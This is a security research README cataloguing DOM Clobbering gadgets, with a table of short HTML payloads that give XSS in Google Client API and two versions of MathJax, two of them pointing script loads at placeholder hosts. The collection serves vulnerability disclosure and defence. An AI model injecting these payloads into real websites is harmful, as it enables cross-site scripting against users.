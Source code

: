 # DOM Clobbering Collection

In this repo, we collect a list of client-side libraries that are either vulnerable to HTML injection or contain DOM Clobbering gadgets that lead to severe consequences, e.g., XSS.
These attacks are verified on chromium browsers.

## HTML Injection

## DOM Clobbering Gadgets

| Library | Version | Payloads | Impact | Found By |
|:-------:|:-------:|----------|:------:|:--------:|
| [Google Client API](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md) | 5BIk7BglYEE | ```<iframe name="scripts" src=”https://api.google.com/js/api.js”>alert("GG!")</iframe><iframe name="scripts" src=”https://api.google.com/js/api.js”>alert("GG!")</iframe>``` | XSS | TheHulk |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax.md) | 2.7.2 | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md) | 3.2.2 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk |
